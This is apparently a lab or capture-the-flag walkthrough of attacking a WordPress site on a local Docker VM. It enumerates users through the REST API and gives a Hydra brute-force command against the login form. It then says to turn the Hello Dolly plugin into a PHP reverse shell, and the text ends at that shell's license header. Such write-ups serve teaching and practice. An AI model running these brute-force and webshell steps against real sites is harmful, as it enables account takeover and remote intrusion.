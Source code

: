 ```
 .... #ommited because not interesting

[+] Enumerating plugins from passive detection ...
[+] No plugins found

```

No plugins are installed, no exploits found... but we did see something very interesting in the output:
the Wordpress API is opened for us :D we can see what users exist `http://<dockervmip>:8000/wp-json/wp/v2/users`
there is only one user called "bob" chances are close to 100% that he is the admin user.

Since we have no exploits available, and we know the username, we can try a bruteforce attack

---------


## Bruteforcing Bob

Let's use Hydra to try and bruteforce the password of Bob

```
hydra 10.0.2.9 -V -l bob -P /root/Downloads/10k_most_common.txt http-get-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.0.2.9%3A8000%2Fwp-admin%2F&testcookie=1:incorrect"

```

The password is Welcome1

edit the dolly plugin to create a php shell
and setup a listener.


**example php shell script** 

```

<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
```